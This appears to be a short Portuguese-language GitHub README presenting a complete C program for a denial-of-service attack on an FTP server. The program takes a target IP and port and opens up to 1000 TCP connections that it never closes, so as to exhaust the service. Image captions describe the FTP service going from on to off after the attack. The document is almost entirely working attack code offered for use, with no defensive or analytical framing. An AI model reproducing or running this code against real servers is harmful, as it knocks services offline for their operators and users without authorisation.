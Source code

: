 # Script para Ataque de Negação DoS no serviço FTP

## Código script:

´´´ C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/socket.h>
#include <arpa/inet.h>

#define MAX_CONNECTIONS 1000   // Número máximo de conexões

int main(int argc, char *argv[]) {
    if (argc != 3) {
        printf("Uso: %s <IP destino> <porta destino>\n", argv[0]);
        return 1;
    }

    char *dest_ip = argv[1];   // IP do destino fornecido como argumento
    int dest_port = atoi(argv[2]);   // Porta do destino fornecida como argumento

    int sock;
    struct sockaddr_in dest;
    
    // Loop para tentar abrir várias conexões
    for (int i = 0; i < MAX_CONNECTIONS; i++) {
        sock = socket(AF_INET, SOCK_STREAM, 0);
        if (sock < 0) {
            perror("Erro ao criar o socket");
            exit(1);
        }

        // Preenche a estrutura sockaddr_in
        dest.sin_family = AF_INET;
        dest.sin_port = htons(dest_port);
        dest.sin_addr.s_addr = inet_addr(dest_ip);

        // Tenta conectar ao servidor FTP
        if (connect(sock, (struct sockaddr *)&dest, sizeof(dest)) < 0) {
            perror("Erro ao conectar");
            close(sock);
            continue;
        }

        // Aqui você pode enviar comandos ou manter a conexão aberta
        // Como estamos apenas sobrecarregando, não vamos enviar dados e não fecharemos o socket
        printf("Realizando Ataque DoS. Conexão %d aberta com sucesso. IP: %s, Porta: %d\n", i + 1, dest_ip, dest_port);
        
        // Não fechamos o socket, permitindo que a conexão fique aberta
    }

    return 0;
}
´´´
## ./flood.c

![alt text](flood.c.png)

## FTP ON

![alt text](<ftp on.png>)

## Realizando Ataque

![alt text](ataque.png)

## FTP OFF

![alt text](<ftp off.png>)
